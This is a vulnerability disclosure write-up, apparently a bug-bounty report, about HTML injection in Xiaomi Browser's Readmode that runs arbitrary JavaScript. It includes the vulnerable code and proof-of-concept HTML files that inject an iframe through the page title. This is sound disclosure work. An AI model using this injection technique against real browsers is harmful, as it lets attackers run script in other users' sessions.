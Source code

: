 # Xiaomi Arbitrary JavaScript 

Hey Everyone, I hope you all are fine and doing well.

In this writeup, I’ll tell you how I was able to Execute Arbitrary JavaScript in Xiaomi Browser using HTML Injection.

## About The Issue
Due to lack of HTML Sanitization, It's possible to Inject Malicious Iframe tag in Readmode and Execute Arbitrary JavaScript code.

## Package Name
com.android.browser

## Version Info
V12.10.4~go

I look the Browser `file:///android_asset/readmode/Readability.js` source code.

The HTML and JavaScript are fully sanitized, however after I read the java source code in readmode activity and `reading_mode_html_internal.js` source code.

I found out that I have a chance to use HTML payload without passing through sanitization inside `<title>` tag.

In `com.android.browser.readmode.e.java` snippet code
```java
StringBuilder stringBuilder = new StringBuilder();
stringBuilder.append("var contentHTML='");
stringBuilder.append(str2);
stringBuilder.append("';appendPage();
setContent(contentHTML);");
str2 = stringBuilder.toString();
if (O != null) {
	stringBuilder = new StringBuilder();
	stringBuilder.append(str2);
	stringBuilder.append("var titleHTML='");
	stringBuilder.append(O);
	stringBuilder.append("';setTitle(titleHTML);");
	str2 = stringBuilder.toString();
}
```
In `file:///android_asset/readmode/reading_mode_html_internal.js` snippet code
```javascript
function setTitle(titleHTML){
	var title = document.getElementById("title" + pageNum);
	if (titleHTML.trim().length != 0) {
		title.setAttribute("class", "title");
		title.innerHTML = titleHTML;
	}
}
```
After getting the HTML `<title>` tag to the string, it will not pass through sanitization.
## Step to Reproduce
- Create `malware_frame.html` file with following content:
```html
<html>
	<head>
		<title>Frame embeded with malware</title>
	</head>
	<body>
		<p>iframe element with malicious code</p>
	<script>alert('Uh oh, I am bad, bad malware!!!')</script>
	</body>
</html>
```
- Create `poc.html` file with following content.
```html
<html>
	<head>
		<title><iframe src="http://localhost:8080/malware_frame.html" height="0" width="0" frameborder="0"></title>
		<h1>Use Readmode for better Experience</h1>
	</head>
	<body>
		<p>Lorem ipsum, or lipsum as it is sometimes known, is dummy text used in laying out print, graphic or web designs. The passage is attributed to an unknown typesetter in the 15th century who is thought to have scrambled parts of Cicero's De Finibus Bonorum et Malorum for use in a type specimen book.</p><br>
		<p>Lorem ipsum, or lipsum as it is sometimes known, is dummy text used in laying out print, graphic or web designs. The passage is attributed to an unknown typesetter in the 15th century who is thought to have scrambled parts of Cicero's De Finibus Bonorum et Malorum for use in a type specimen book.</p>
	</body>
</html>
```
- Run local server `localhost:8080`
- In browser, open the following url `http://localhost:8080/poc.html`
- You see JavaScript from `malware_frame.html` executed immediately after Readmode ON

## Impact
An attacker is able to execute malicious JavaScript in context of other user's Browser.

## Vulnerability Disclosure
| Date | Contact |
| ----------- | ----------- |
| April 30, 2020 | I reported it on HackerOne regarding this vulnerability issue. |
| May 8, 2020 | My report has been triaged. |
| May 17, 2020 | Vulnerability has been fixed and I got bounty. |
